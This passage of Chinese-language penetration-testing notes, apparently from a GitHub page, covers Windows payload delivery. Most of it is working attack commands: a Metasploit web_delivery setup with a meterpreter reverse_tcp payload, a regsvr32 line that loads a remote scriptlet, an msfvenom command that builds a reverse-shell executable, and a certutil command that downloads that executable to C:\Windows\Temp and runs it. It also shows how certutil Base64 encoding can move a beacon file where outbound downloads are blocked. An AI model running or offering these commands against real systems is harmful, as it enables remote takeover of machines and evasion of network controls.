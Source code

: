 ```bash
use exploit/multi/script/web_delivery
set srvhost <Host>
set target 3
set payload windows/x64/meterpreter/reverse_tcp
set lhost <Host>
exploit -j
```

客户端执行上线。

```bash
regsvr32 /s /n /u /i:http://<Host>/xxx.sct scrobj.dll
```

#### 2.1.5 Certutil

生成 exe。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f exe > attack.exe
```

下载文件到 C:\\Windows\\Temp\\ 并执行，最后删除缓存。

```bash
certutil -urlcache -split -f http://<Host>/attack.exe C:\Windows\Temp\attack.exe & start C:\attack.exe

// 删除缓存
certutil -urlcache -split -f http://<Host>/attack.exe
```

有时能够执行命令不出网没法下载文件，在 @AabyssZG 博客中[《SQL 注入恶劣环境之可执行文件上传骚姿势》](https://blog.zgsec.cn/archives/258.html)一文可以通过 Certutil 编解码功能来传输文件。网络稳定的情况下传一些小文件很好用，在此记录下。

先将文件编码 `Certutil -encode <要编码的文件> <编码后文件>`。

```bash
E:\Desktop>DIR /C student_raingray_beacon.exe
 驱动器 E 中的卷是 SoftWare2
 卷的序列号是 7E0F-A68D

 E:\Desktop 的目录

2023/05/19  11:18           288,256 student_raingray_beacon.exe
               1 个文件        288,256 字节
               0 个目录 598,579,605,504 可用字节

E:\Desktop>Certutil -encode student_raingray_beacon.exe student_raingray_beacon
输入长度 = 288256
输出长度 = 396412
CertUtil: -encode 命令成功完成。
```

会发现文件被 Base64 编码。

```bash
-----BEGIN CERTIFICATE-----
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
......
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAA==
-----END CERTIFICATE-----
```
